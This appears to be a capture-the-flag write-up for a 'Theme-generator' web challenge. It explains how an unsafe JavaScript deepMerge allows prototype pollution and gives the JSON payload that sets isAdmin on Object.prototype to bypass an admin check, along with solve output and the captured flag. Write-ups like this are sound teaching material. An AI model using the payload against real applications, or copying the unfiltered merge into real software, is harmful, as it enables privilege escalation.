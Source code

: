 # Theme-generator

![Proof](proof.png)

**Author:** `thek0der`  
**Solves:** 56

---

## Description

Just a simple theme generator app. Nothing fancy.

We get: `handout.zip`
---

## Vulnerability

1. Unsafe custom deep-merge → Prototype Pollution
The application merges uploaded JSON into an internal configuration using a home-grown `deepMerge` implementation similar to:
```js
function deepMerge(target, source) {
  for (const k in source) {
    const val = source[k];
    if (val && typeof val === 'object' && !Array.isArray(val)) {
      if (!target[k]) target[k] = {};
      deepMerge(target[k], val);
    } else {
      target[k] = val;
    }
  }
  return target;
}
```
**The problem**:
It iterates `for (const k in source)` and does not filter or validate property names.
When `k` resolves to special properties like `constructor` or `__proto__`, `target[k]` can refer to inherited JS built-ins. Recursing into them allows writing onto `Object.prototype`.
Example dangerous input (conceptually):
```json
{ "constructor": { "prototype": { "isAdmin": true } } }
```
After merge, `Object.prototype.isAdmin === true`.

2. Authorization logic is bypassable via polluted prototype
The app proves vulnerable because admin-check logic uses a simple property check:
```js
if (req.user.isAdmin === true) { /* allow admin */ }
```
If `Object.prototype.isAdmin` is set to `true`, then `req.user.isAdmin` will resolve via the prototype chain to `true` for any `req.user`, elevating privileges for any logged-in user (including `guest`).

## Solve:

We can try a payload like this one:
```python
payload = {
        "a": { "b": { "c": {
            "constructor": { "prototype": { "isAdmin": True } }
        } } }
    }
```

And when we run the `solve.py`:
```bash
python .\solve.py
logged in
send
upload status: 200
{"ok":true,"merged":{"theme":{"name":"light","colors":{"bg":"#fff","fg":"#111","isAdmin":true},"isAdmin":true},"options":{"compact":false,"isAdmin":true},"isAdmin":true,"a":{"b":{"c":{"isAdmin":true},"isAdmin":true},"isAdmin":true}}}
flag: ctf{fa82311c2970593b2df929b7d0f1ca6292a9a2d3707057b84a5127ceed38edd6}
```

### Flag: ctf{fa82311c2970593b2df929b7d0f1ca6292a9a2d3707057b84a5127ceed38edd6}